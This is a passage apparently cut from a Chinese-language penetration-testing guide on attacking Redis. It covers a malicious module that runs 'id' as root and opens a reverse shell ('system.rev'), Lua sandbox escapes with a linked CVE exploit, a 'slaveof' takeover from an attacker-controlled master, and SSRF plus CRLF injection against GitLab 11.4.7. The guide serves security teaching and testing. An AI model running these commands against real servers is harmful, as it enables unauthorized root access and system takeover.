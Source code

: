 ```
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```
6. 随时卸载模块： `MODULE UNLOAD mymodule`。

### LUA 沙箱绕过

[**这里**](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) 您可以看到 Redis 使用命令 **EVAL** 来执行 **Lua 代码沙箱**。在链接的帖子中，您可以看到 **如何滥用它** 使用 **dofile** 函数，但 [显然](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) 这不再可能。无论如何，如果您可以 **绕过 Lua** 沙箱，您可以 **在系统上执行任意** 命令。此外，从同一帖子中，您可以看到一些 **导致 DoS 的选项**。

一些 **CVE 用于逃离 LUA**：

* [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### 主从模块

主 Redis 的所有操作会自动同步到从 Redis，这意味着我们可以将漏洞 Redis 视为从 Redis，连接到我们自己控制的主 Redis，然后我们可以向自己的 Redis 输入命令。
```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
## SSRF 与 Redis 通信

如果您可以发送 **明文** 请求 **到 Redis**，您可以 **与其通信**，因为 Redis 会逐行读取请求，并仅对它不理解的行返回错误：
```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
因此，如果您在网站中发现了一个 **SSRF vuln**，并且您可以 **控制** 一些 **headers**（可能通过 CRLF vuln）或 **POST 参数**，您将能够向 Redis 发送任意命令。

### 示例：Gitlab SSRF + CRLF 到 Shell

在 **Gitlab11.4.7** 中发现了一个 **SSRF** 漏洞和一个 **CRLF**。该 **SSRF** 漏洞存在于 **从 URL 导入项目功能** 中，在创建新项目时允许以 \[0:0:0:0:0:ffff:127.0.0.1] 的形式访问任意 IP（这将访问 127.0.0.1），而 **CRLF** 漏洞则通过 **在 URL 中添加 %0D%0A** 字符来利用。
